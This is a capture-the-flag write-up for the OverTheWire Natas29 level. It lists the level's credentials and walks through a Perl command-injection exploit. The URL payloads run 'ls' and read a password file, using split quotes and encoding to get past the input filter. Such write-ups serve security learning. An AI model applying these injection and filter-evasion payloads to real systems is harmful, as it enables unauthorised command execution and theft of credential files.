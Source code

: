 # Natas29 — OverTheWire

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/BANNER.png" width="100%"/>](https://github.com/mauzware)

## 📸 Credentials

```
Username: natas29
Password: 31F4j3Qi2PnuhIZQokxXk1L3QT9Cppns
URL:      http://natas29.natas.labs.overthewire.org
```

---

## 🧠 Walkthrough

- Access the site using credentials.

- Here, we have Perl RCE. Endpoint `index.perl?file=` is vulnerable to RCE and you can confirm it with `|ls%00`.

  <img src="https://github.com/mauzware/OverTheWire-Natas/blob/main/natas29/test.png"/>

- Now we just have to read the password. Here's the payload: `|cat+%22/etc/nat%22%22as_webpass/nat%22%22as30%22|tr+%27\n%27+%27+%27`.

  ```
  # --------------------------------------
  # PAYLOAD EXPLANATION:
  # Remote Command Execution (RCE) is possible via the "file" parameter
  # however, there’s input sanitization (e.g., blocking semicolons, slashes, etc.)
  # so evade filters using:
  # - "%22" for double quotes
  # - broken-up file path using string concatenation
  # - "+" in place of spaces (URL-safe)
  # - "tr" to replace newline with space for clean output
  # --------------------------------------
  ```

